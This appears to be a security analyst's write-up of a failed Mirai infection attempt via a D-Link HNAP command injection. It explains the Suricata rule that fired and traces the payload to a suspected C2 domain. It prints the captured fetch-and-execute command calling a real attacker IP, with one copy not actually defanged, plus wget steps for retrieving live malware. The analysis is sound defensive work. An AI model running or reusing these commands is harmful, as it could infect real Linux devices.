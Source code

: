 # Attempted Mirai Infection and Analysis
---

## The Attack

- This began with a "drive by" infection attempt aiming to exploit a D-Link Router vulnerability CVE-2020-15631. Thank fully this bot attack didn't find a D-Link Router and instead found a fully patched web server. The attack failed.  Breaking the initial vulnerability and exploit attempt down is beyond the scope of this project but I will give a brief overview. 
    - This website has some great analysis on this vulnerability:
        - https://musteresel.github.io/posts/2018/03/exploit-hnap-security-flaw-dlink-dir-615.html

### Suricata Alert

- The Rule that fired was the following:
 ```
	alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"ET WEB_SERVER Possible D-Link Router HNAP Protocol Security Bypass Attempt"; flow:established,to_server; urilen:7; http.method; content:"POST"; http.uri; content:"/HNAP1/"; nocase; endswith; fast_pattern; http.header; content:"SOAPAction|3a 20|"; nocase; content:"/HNAP1/"; distance:0; pcre:"/^(?:set|get)/Ri"; content:"DeviceSettings"; within:14; reference:url,www.securityfocus.com/bid/37690; reference:url,doc.emergingthreats.net/2010698; classtype:web-application-attack; sid:2010698; rev:6; metadata:created_at 2010_07_30, updated_at 2020_11_02;)
```
- Lets break this Suricata signature down.
    1. The rule is an "alert" rule looking at http traffic from any port inbound from the variable EXTERNAL_NET to the networks assigned to the variable HOME_NET on any port. This is followed by the message as denoted by "msg" which basically tells us what the alert is firing for.
    2.  The flow is set to established which means it will only match on established connections. Direction is "to server." 
    3. We see the "urilen" which sets a uri length of 7 characters. 
    4. We then see a sticky buffer of "http.method" which modifies the content "POST" which come after it. That is telling the logic to look in the http.method field for content of "POST." If the http.method field has a GET or any method other then POST, the logic won't continue to run and the rule won't fire. 
    5. We then see another sticky buffer of "http.uri." Again, this is giving a field for which to look for the content that follows it. In this case its saying look in the "http.uri" field for the content "/HNAP1/". You will notice that their is 7 characters in "/HNAP1/"
   6. We see "nocase" which sounds exactly what it does - makes it not case sensitive.
   7. Next is endswith, which according to the suricata manual it "modifies the content to match exactly at the end of a buffer."
   8.  "fast pattern" is fairly complicated and takes some time to explain. I suggest consorting with the suricata manual if you are interested in what this does. 
   9. We then see "http.header" sticky buffer which says " look at the http.header for the following content "SOAPAction|3a 20|" 
      - notice the |3a 20| . If you put that in cyber chef and decode from hex to ASCII you will notice it translates to the character ":" this is a special character and must be translate to hex in the rule or it will mess up the logic. This is trying to look for "SOAPaction:"
   10. We see another content which again is modified by the preceding http.header sticky buffer. This content is looking for "/HNAP1/.
   11. "distance: 0" is telling the logic to look for the preceding content of /HNAP1/ 0 bits away from the content before /HNAP1/ which in this case is SOAPaction:
     - the Suricata manual has a great picture that explains this concept
![image.png](/.attachments/image-532e61cd-c386-43e3-88e5-dcbf6874e550.png)
    

12.  We then see some pcre regex essentially looking for either "set" or "get" not dependent on case. 
```pcre:"/^(?:set|get)/Ri"```
13. Right after the PCRE we see another content match looking for "DeviceSettings" This is followed by a distance modifier of "within: 14. This is best explained with another picture
![image.png](/.attachments/image-c6c457e7-6c99-49f2-9ec6-97adf0a4f158.png)

13. That's it for the logic of the rule. Following the logic we have some reference links, the classtype(which signifies which kind of attack it is),  Signature ID(SID), the revision number, and some metadata which tells us when it was created or modified. 

### The Traffic The Rule Fired For

![image.png](/.attachments/image-e052bfb3-7be3-4d92-9713-607756a2e185.png)

- As we can see we have a POST as the HTTP Method
- We have /HNAP1/ as the URI
- We have an HTTP header of SOAPaction: with  /HNAP1/ in the header.
- Immediately following /HNAP1/ we have "Get" which the regex will match on and then "DeviceSettings"
- Following DeviceSettings we have the contents of the exploit payload which can change depending on what the threat actor is going to do. 

### The Initial Exploit
Defanged!
```
cd && cd tmp && export PATH=$PATH:. && cd /tmp;wget http://23.94.22[.]13/a/wget.sh;chmod 777 wget.sh;sh wget.sh selfrep.dlink;rm -rf wget.sh`"
```
This looks like a rather simple command injection.
- It does a CD (change directory) and if that executes with no errors it changes directory to the tmp directory.
- Then adds the current path to the PATH variable
- We see a CD to the /tmp directory where it then uses the wget tool to pull down a script titled "wget.sh" from ```http://23[.]94.22[.]13/a/wget.sh```
- It then changed the permissions on the wget.sh script to 777 or rwxrwxrwx 
- We then see it use sh to execute wget.sh and it follows it all up by deleting itself. 


### What's in wget.sh?

- To find this out we need to fire up a VM (behind a VPN) and wget this wget.sh script from the attacker webserver. 
    - To that end we can just run the same command (defanged of course)
    - Be careful from here on out. The ELF we eventually will grab can infect linux machines. Only  do this on a machine you can blow up and walk away from or reset. 
```
wget http://23.94.22[.]13/a/wget.sh
```
- Once we have wget.sh we can 'cat' the contents. 

![wget_sh.png](/.attachments/wget_sh-de81ca11-748b-49d0-ba8f-dc57f28ea875.png)

- Gnarly. What's this thing trying to do? It's rather simple. It's using wget to pull down the secondary payload, changing the permissions on it and executing it. It doesn't know the operating CPU so its trying from ARM to x86_64. It tries to install them all. 

### What's the secondary payload?

- Lets find out by utilizing wget to pull it down

```
wget http://23.94.22[.]13/x86_64
```
- After we got that payload we can do a few things. 
    - We can start of by running the command "file" to get some details
![image.png](/.attachments/image-d7ca65f2-b5c8-4498-bd9b-6c3902f35225.png)

- Then lets run the "strings" command and see what we can find
    - If we look through all the strings we can see bots.infectedfam[.]cc This looks like potentially C2 domain. We should check that out later. 
![bots_infectedfam_cc_post.png](/.attachments/bots_infectedfam_cc_post-1e7ce95d-55de-4b0d-92dc-69b9b2f2ba99.png)

### Follow Up Analysis

- At this point, We've collected a handful of IoC's. We have IP addresses(both from the original attack and the ones contained in the exploits). We have a domain. We also have some pretty unique strings we may be able to write a YARA rule with down the road.  
- Lets investigate that domain. 
    - Just days old. Also proxied through Cloudflare. - Smart. Don't exactly want to block Cloudflare IP. Can still block that domain though!
![image.png](/.attachments/image-ab391949-b696-432f-842f-a97e0dac6ea4.png)

- Next we can share this intel with the community by submitting our IoC's as a pulse on AlienVault OTX. I've done so. First Pulse for this domain!
https://otx.alienvault.com/pulse/6215c927cbce007580b75c5e

- I also submitted that ELF to Joes Sandbox for further analysis. You can find the report here:
https://www.joesandbox.com/analysis/576941/0/html

### What I'll be doing now.

- GHIDRA - I'm no programmer or reverse engineer but I'd like to get an even deeper understanding of how this Mirai flavor is working. 
- Yara rules for detection. 

![Ghidra.png](/.attachments/Ghidra-1beaa57c-010a-4612-b0c4-46c43b4d57fe.png)